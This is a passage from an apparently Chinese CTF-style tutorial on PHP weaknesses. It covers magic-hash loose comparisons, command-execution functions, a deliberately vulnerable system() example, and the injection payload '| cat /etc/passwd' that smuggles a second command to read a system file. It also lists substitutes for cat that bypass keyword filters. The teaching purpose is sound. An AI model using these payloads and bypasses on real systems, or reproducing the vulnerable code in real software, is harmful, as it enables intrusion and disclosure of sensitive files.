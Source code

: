 ```php
'0e481036490867661113260034900752'` `== ``0'` `;
var_dump(md5(``'240610708'``) == md5(``'QNKCDZO'``));
var_dump(md5(``'aabg7XSs'``) == md5(``'aabC9RqS'``));
var_dump(sha1(``'aaroZmOk'``) == sha1(``'aaK1STfY'``));
var_dump(sha1(``'aaO8zKZF'``) == sha1(``'aa3OFF9m'``));
?>
```

#### （五）命令执行替换与注入攻击

###### #返回rec=127可能是disable_functions 禁用了命令执行函数

PHP中可以使用下列5个函数来执行外部的应用程序或函数 
system、exec、passthru、shell_exec、“(与shell_exec功能相同) 
函数原型 
string system(string command, int &return_var) 
command 要执行的命令 
return_var 存放执行命令的执行后的状态值 
string exec (string command, array &output, int &return_var) 
command 要执行的命令 
output 获得执行命令输出的每一行字符串 
return_var 存放执行命令后的状态值 
void passthru (string command, int &return_var) 
command 要执行的命令 
return_var 存放执行命令后的状态值 
string shell_exec (string command) 
command 要执行的命令 

**漏洞实例** 

例1:
//ex1.php

```php
<?php
$dir = $_GET["dir"];
if (isset($dir))
{
     echo "<pre>";
     system("ls -al ".$dir);
     echo "</pre>";
}
?>
```

我们提交http://www.sectop.com/ex1.php?dir=| cat /etc/passwd
提交以后，命令变成了 system("ls -al | cat /etc/passwd");

##### 0x01 过滤cat,flag等关键词

1，代替

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261  //报错出文件内容
12345678910111213
```